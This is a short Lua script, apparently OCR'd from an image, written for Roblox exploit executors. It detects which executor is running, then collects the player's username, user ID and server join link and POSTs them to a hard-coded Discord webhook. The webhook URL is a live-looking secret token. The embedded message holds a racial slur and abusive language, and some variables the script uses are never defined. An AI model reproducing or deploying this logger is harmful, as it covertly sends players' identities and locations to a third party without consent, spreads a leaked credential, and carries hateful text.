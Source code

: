 local url =
    "https://discord.com/api/webhooks/983455435912794152/iwSPgI4gpgY012ZjVS2JRXyr8UFBID9wW9PO7HcREY2JpE8sG82uqDUVf-rAUQNOXuNa"

local webhookcheck =
    is_sirhurt_closure and "Sirhurt" or pebc_execute and "ProtoSmasher" or syn and "Synapse X" or
    secure_load and "Sentinel" or
    KRNL_LOADED and "Krnl" or
    SONA_LOADED and "Sona" or
    "Kid with shit exploit"

local data = {
    ["content"] = "Porfile: "..profile,
    ["embeds"] = {
        {
            ["title"] = "**LanxilityV2 go cry nigga @everyone shut the fuck up**",
            ["description"] = "Username: " .. game.Players.LocalPlayer.Name.."("..game.Players.LocalPlayer.UserId..") with **"..webhookcheck.."**".." Here is there job id to join them: "..joinurl,
            ["type"] = "rich",
            ["color"] = tonumber(0x7269da),
            ["image"] = {
                ["url"] = "http://www.roblox.com/Thumbs/Avatar.ashx?x=150&y=150&Format=Png&username=" ..
                    tostring(game:GetService("Players").LocalPlayer.Name)
            }
        }
    }
}
local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
    ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef)
